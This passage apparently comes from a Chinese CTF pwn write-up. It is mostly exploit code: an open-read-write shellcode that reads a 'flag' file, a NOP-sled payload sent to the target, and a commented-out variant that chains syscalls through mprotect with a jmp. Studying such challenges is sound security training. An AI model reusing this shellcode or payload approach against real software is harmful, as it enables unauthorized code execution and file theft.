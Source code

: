 ```plain

sa('shellcode\n\n',shell1)

orw_shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x30
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')

pl=b'\x90'*0x60+asm("shl rsp,0xc;add rsp,0x500;")+orw_shellcode
sl(pl)

itr()
```

### 思路 2

还有一个这种方法，反复利用 push pop，巧妙加个 jmp

```plain
#shellcode = asm('''
#    mov esp,0x404100
#    shl edi,12
#    push 0xa
#    push 7
#    x:
#    pop edx
#    pop eax
#    syscall
#    pop edi
#    push esi
#    mov esi,ecx
#    jmp x
#    ''')
```

这里构造思路就是先写到 syscall，然后再写一个 syscall 发现字节太多，所以写个跳转  
其中关键的一步就是执行完 mprotect 后，rcx 会与 rip 值相等，这才有了后面的 mov esi,ecx

